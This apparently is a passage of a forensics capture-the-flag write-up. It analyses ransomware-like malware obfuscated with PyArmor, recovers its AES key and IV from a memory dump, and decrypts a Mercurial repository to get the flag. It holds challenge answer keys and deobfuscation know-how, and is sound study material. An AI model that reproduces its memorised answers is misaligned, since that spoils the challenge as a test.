The script is obfuscated with PyArmor, which makes it difficult to analyze directly. Following the approach described in the article [Reverse pyarmor obfuscated python script using memory dump technique](https://medium.com/@liad_levy/reverse-pyarmor-obfuscated-python-script-using-memory-dump-technique-9823b856be7a), I was able to dump the memory from the PyArmor runtime. At the bottom of the `__main__` section, I found references to `MODE_CBC`, which suggested that the encryption method used was either AES or DES.



After further examination of the code and dumped memory, I confirmed that the malware was using AES (Advanced Encryption Standard) encryption.

Answer: `AES`

## No 6

```
Question: Key yang digunakan untuk mengenkripsi file
Format: -
```

The next question asked for the key used to encrypt files. By analyzing the top section of the `__main__` module in the memory dump, I found the encryption key:



Answer: `7aeaef7351e88b7a`

## No 7

```
Question: IV yang digunakan untuk mengenkripsi file
Format: -
```

Similarly, I needed to find the Initialization Vector (IV) used for encryption. This was also found in the top section of the `__main__` module:


Answer: `b2195af3d80ec529`

## No 8

```
Question: Commit message yang dipush oleh threat actor
Format: -
```

The eighth question asked for the commit message pushed by the threat actor. From the list of commands executed, I could see that the threat actor removed a file named `flag.enc` and committed this change with a specific message:

`19: server::::cd Documents/tugas-akhir && hg commit -m "remove flag hahaha"`

Answer: `remove flag hahaha`

## No 9

```
Question: Isi asli dari file `flag`
Format: -
```

For the final question, I needed to recover the original contents of the `flag` file. Looking at the list of files in the artifacts, I noticed several files with `.enc` extensions, suggesting they were encrypted files from a Mercurial repository:

```
1589 script.py.enc
1602 undo.backup.branch.bck.enc
1613 last-message.txt.enc
1625 undo.desc.enc
1638 undo.backup.dirstate.bck.enc
1650 00changelog.i.enc
1661 00changelog.d.enc
1673 00manifest.i.enc
1685 undo.backupfiles.enc
1697 00changelog.i.enc
1709 script.py.i.enc
1722 flag.enc.i.enc
```

To recover the files, I created a Python script to decrypt the AES encrypted files using the key and IV found earlier:

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

ct = bytes.fromhex('eade7b7579fb9e4cd86f38e7d84418230e4b042e9c593e6e6038f725c19b5cd818377dcb95c2c998662edac817d07cbe502bb582085b93529f2acdf46ef19abc6529bf6204222b8a93cb3dbe8d8b4294e6a33bb9d438b84e73080ae9d251f199038a42c8d1f08e41ada0bb618f7fa0d82437c884934b9991a0f7d2f1005d1a2bb1ed63ad0439935a8cae127e29fb5e5b2c6893aaafafbef4e98d390c56b39419092fd838e4745e5a7fee5c738ab6d5a2acc8fef53306da96b1df395b46dbe56f04e2445a99dc1a58c7992f94dd033bdfb3404b6d6f8ced51696ea239eb7c17d2b183dad774a9354890528712d02d628458366422be09ef6eeba22ae5acaf37c9b8f0cef6fff2fcf0deea6fdccffa495b314c7877cf5bbd0caa16cf7de250d204')

key = b'7aeaef7351e88b7a'
iv  = b'b2195af3d80ec529'

cipher = AES.new(key, AES.MODE_CBC, iv)
pt = cipher.decrypt(ct)
try:
    pt = unpad(pt, 16)
except ValueError:
    pass

f = open('hg/00manifest.i', 'wb')
f.write(pt)
f.close()
```

After decrypting various repository files, I reconstructed the Mercurial repository structure:



The structure of the repository looked something like this:

```
<root>\
    .hg\
        data\
            script.py.i
            flag.enc.i
        00changelog.d
        00changelog.i
        00manifest.i
        undo.backup.branch.bck -> branch
        undo.backup.dirstate.bck -> dirstate
        undo.backupfiles -> backupfiles
        undo.desc -> journal.desc
        last-message.txt
    script.py
```

Using Mercurial commands, I was able to extract the encrypted flag file from an earlier revision:

```bash
hg cat -r 0 flag.enc > flag.enc
```

I then found that `script.py` contained functionality to both encrypt and decrypt files using the Blowfish algorithm. Running this script to decrypt the flag file:

```bash
python script.py --input flag.enc --output flag
```

Answer: `Walawe1337!!@@`
